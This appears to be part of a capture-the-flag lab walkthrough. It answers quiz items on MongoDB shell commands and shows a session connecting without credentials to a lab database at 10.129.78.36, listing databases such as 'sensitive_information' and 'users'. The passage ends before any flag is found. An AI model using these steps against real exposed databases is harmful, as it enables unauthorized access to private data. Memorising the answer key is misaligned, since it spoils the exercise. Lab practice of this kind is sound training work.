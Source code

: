 4、What is the command name for the Mongo shell that is installed with the mongodb-clients package?

```
Mongo
```

5、What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

```
show dbs
```

6、What is the command used for listing out the collections in a database? (No need to include a trailing ;)

```
show collections
```

7、What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

```
db.flag.find().pretty()
```

8、Submit root flag

```
└─# mongo 10.129.78.36:27017
```

```
> help
	db.help()                    help on db methods
	db.mycoll.help()             help on collection methods
	sh.help()                    sharding helpers
	rs.help()                    replica set helpers
	help admin                   administrative help
	help connect                 connecting to a db help
	help keys                    key shortcuts
	help misc                    misc things to know
	help mr                      mapreduce

	show dbs                     show database names
	show collections             show collections in current database
	show users                   show users in current database
	show profile                 show most recent system.profile entries with time >= 1ms
	show logs                    show the accessible logger names
	show log [name]              prints out the last segment of log in memory, 'global' is default
	use <db_name>                set current database
	db.mycoll.find()             list objects in collection mycoll
	db.mycoll.find( { a : 1 } )  list objects in mycoll where a == 1
	it                           result of the last line evaluated; use to further iterate
	DBQuery.shellBatchSize = x   set default number of items to display on shell
	exit                         quit the mongo shell
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use admin
switched to db admin
> show collections
system.version
> db.flag.find().pretty()
> db.flag.find()
> use users
```